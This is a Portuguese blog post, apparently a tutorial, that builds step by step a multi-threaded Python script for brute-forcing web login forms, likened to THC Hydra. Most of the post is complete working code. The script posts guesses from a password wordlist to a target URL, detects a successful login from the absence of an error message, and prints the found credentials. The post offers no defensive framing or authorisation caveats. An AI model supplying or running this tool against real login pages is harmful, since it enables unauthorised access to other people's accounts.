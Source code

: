 ```yaml
---
title: 'Criando nosso próprio script de Brute Force'
date: '2020-10-10'
tags: ['brute-force', 'python', 'password-cracking']
summary: Neste artigo vamos aprender como criar um script de brute force multi-threadead, semelhante ao THC Hydra.
cover_image: https://reddyyz.github.io/images/posts/brute-force-post.png
draft: false
---
```


Neste artigo vamos aprender como criar um script de brute force multi-threadead, semelhante ao THC Hydra.

<TOCInline toc={props.toc} asDisclosure />

### Bibliotecas usadas

- requests
- argparse
- threading
- os
- time

Vamos usar a biblioteca [requests](https://requests.readthedocs.io/en/master/) para facilitar o nosso trabalho com as requisições HTTP, [argparse](https://docs.python.org/3/howto/argparse.html) para utilizarmos argumentos na linha de comando e [threading]() para usarmos vários threads que proporcionarão uma maior velocidade.

Caso não queira depender de bibliotecas, pode fazer todas as requisições na mão usando sockets.

### Como irá funcionar o script

O script receberá como argumento o usuário que deve ser testado, uma wordlist com as possíveis senhas e a mensagem de erro que é exibida quando se erra o login.

Ele percorrerá essa lista de senhas testando cada uma, e checando se a mensagem de erro é exibida, caso a mensagem de erro não apareça, a senha foi encontrada!

### Multi-Threading

O multi-threading funcionará da seguinte forma:

> Neste exemplo vamos supor que a quantidade de threads definida é 16

No script terá um `for i in range(16)` que irá obter a primeira senha da lista, removê-la, criar um thread para essa requisição e adicioná-lo a uma lista de threads.

Em seguida ele irá aguardar esses 16 threads terminarem e então repetirá este mesmo código com outras 16 senhas, até achar a senha correta ou terminar a wordlist.

### Criando o script

Agora que já entendemos como o script funcionará, vamos codar!

Primeiro importamos as bibliotecas:
```python:main.py
import requests, argparse, threading, os, time
```

E agora vamos criar a função que irá enviar a requisição

```python:main.py
def send_request(url, data, login, error_message, t_number):
    '''
    error_message = Mensagem de login errado
    data = Formulario preenchido
    login = Usuario e senha
    t_number = Numero do thread
    '''
    print(f"[Thread: {t_number}] Testing: {login[0]}:{login[1]}")
    r = requests.post(url,data=data,timeout=3)

    if not error_message in r.text:
       print(f"\nSENHA ENCONTRADA: {login[0]}:{login[1]}\n")
       os._exit(1)
```

Aqui enviamos a requisição POST e aguardamos a resposta:
```python
r = requests.post(url,data=data,timeout=3)
```
E em seguida checamos se é exibida a mensagem de erro:
```python
if not error_message in r.text:
```
Caso não seja exibida, exibimos a senha encontrada e damos um "exit" no script.
```python
print(f"\nSENHA ENCONTRADA: {login[0]}:{login[1]}\n")
os._exit(1)
```

Agora vamos criar a função que irá separar e nos retornar os dados que passarmos (formulários e a mensagem de erro).

```python:main.py
def parse_info(data):
    '''
    data = "usuario=^USER^&senha=^PASS^:Username or password invalid"
    '''

    forms, mensagem_de_erro = data.split(":")
    forms = forms.split("&")
    
    user_form = "".join(i.replace("=^USER^","") for i in forms if "^USER^" in i)
    pass_form = "".join(i.replace("=^PASS^","") for i in forms if "^PASS^" in i)

    return (user_form, pass_form, mensagem_de_erro)
```

A função separa a mensagem de erro dos formulários, depois percorre os formulários procurando onde deve-se inserir o usuário e senha, e então retorna os dados.

E agora a função que irá receber os argumentos do usuário usando o argparse

```python:main.py
def arguments():
    parser = argparse.ArgumentParser("Brute Force",description="https://reddyyz.github.io",usage='python3 bruteforce.py -u http://localhost/login.php -i "user=^USER^&pass=^PASS^:Username or password invalid"')

    parser.add_argument("-u","--url",help="URL do Alvo")
    parser.add_argument("-t","--threads",help="Número de threads",default=16,type=int)
    parser.add_argument("-i","--info",help="Fomularios para atacar e mensagem de erro")

    parser.add_argument("-uL","--user",help="Usuário")

    parser.add_argument("-P","--pass-wordlist",help="Wordlist para senhas")

    args = parser.parse_args()
    if not args.url:
        exit(parser.print_help())

    if not args.user:
        exit(parser.print_help())
    if not args.pass_wordlist:
        exit(parser.print_help())

    return (args.url, args.threads, args.info, args.user, args.pass_wordlist)
```

Agora com tudo pronto, vamos criar a função principal:

```python:main.py
def main():
    url, threads, info, user, pass_wordlist = arguments()
    user_form, pass_form, mensagem_de_erro = parse_info(info)
    # print("Iniciando...\n")
    print(\
f"""
Alvo: {url}
Threads: {threads}
Mensagem de Erro: {mensagem_de_erro}
Formulários:
    USER -> {user_form}
    PASS -> {pass_form}
""")

    time.sleep(2)

    fd = open(pass_wordlist,"r")
    passwords = fd.read().split("\n") # Lê as senhas
    fd.close()

    while True:
        if not passwords: break # Encerra o script caso as senhas tenham acabado
        threads_ = [None] * threads

        for i in range(threads):
            try:
                passwd = passwords[0]
                passwords.remove(passwd)
            except IndexError:
                break

            login = [user, passwd]
            data = {
                user_form: user,
                pass_form: passwd
            }

            threads_[i] = threading.Thread(target=send_request, args=(url, data, login, mensagem_de_erro, i))
            threads_[i].start()

        for thread in threads_:
            try:
                thread.join()
            except:
                pass

    print("Ataque encerrado!")
```

Aqui lemos as senhas, e criamos uma sequência de threads para a função "send_request", aguardamos os threads encerrarem, e repetimos até a senha ser encontrada.

```python:main.py
while True:
        if not passwords: break # Encerra o script caso as senhas tenham acabado
        threads_ = [None] * threads

        for i in range(threads):
            try:
                passwd = passwords[0]
                passwords.remove(passwd)
            except IndexError:
                break

            login = [user, passwd]
            data = {
                user_form: user,
                pass_form: passwd
            }

            threads_[i] = threading.Thread(target=send_request, args=(url, data, login, mensagem_de_erro, i))
            threads_[i].start()

        for thread in threads_:
            try:
                thread.join()
            except:
                pass
```

E por fim, colocamos a execução da função main dentro do `if __name__ == "__main__":`

```python:main.py
if __name__ == "__main__":
    main()
```

E nosso script está pronto! [Código completo](https://gist.github.com/ReddyyZ/992e9545d2b3057d8fdc7896e51f3c71)

Demonstração:

<script id="asciicast-365627" src="https://asciinema.org/a/365627.js" async />

### Obrigado!

Obrigado por ler até aqui! Caso tenha alguma dúvida entre no meu servidor do discord e pergunte!<br/>
[Discord Server](https://discord.gg/v5d3PZ9)